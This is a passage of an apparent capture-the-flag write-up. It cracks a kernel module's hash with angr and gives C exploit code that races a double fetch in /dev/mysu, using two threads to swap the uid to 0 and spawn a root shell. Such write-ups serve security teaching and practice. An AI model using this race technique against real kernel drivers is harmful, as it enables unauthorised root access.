 ```crack_hash.py```:
```

angr gives:
```bash
> # python3 crack_hash.py
WARNING  | 2023-04-24 17:41:42,777 | cle.loader     | The main binary is a position-independent execu.
0x6e,0x63,0x7b,0x89,0x0,0x80,0x1,0x0,
```

## Exploit

The exploit finale consists of supplying first four bytes of users uid and another four bytes of cracked hash to mysu.ko.

We could create two threads (since we are going for double fetch), for one to authenticate, and the other to switch the uid.

```exploit.c``` is as follows:
```c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <limits.h>
#include <unistd.h>
#include <pthread.h>

unsigned char payload[] = {
    0xe8, 0x03, 0x0, 0x0,
    0x6e, 0x63, 0x7b, 0x89, 0x0, 0x80, 0x1, 0x0};

int stop = 0;

void *uid1000_thread() // authenticate uid & hash
{
    while (!stop)
    {
        int fd1 = open("/dev/mysu", O_RDWR);
        payload[0] = 0xe8;
        payload[1] = 0x03;
        write(fd1, payload, sizeof(payload));
        close(fd1);
        if (getuid() == 0)
        {
            stop = 1;
            printf("Gained UID 0\n");
            system("/bin/sh");
        }
    }
}

void *uid0_thread() // swith uid to 0
{
    while (!stop)
    {
        payload[0] = 0x00;
        payload[1] = 0x00;
        if (getuid() == 0)
        {
            stop = 1;
            printf("Gained UID 0\n");
            system("/bin/sh");
        }
    }
}
```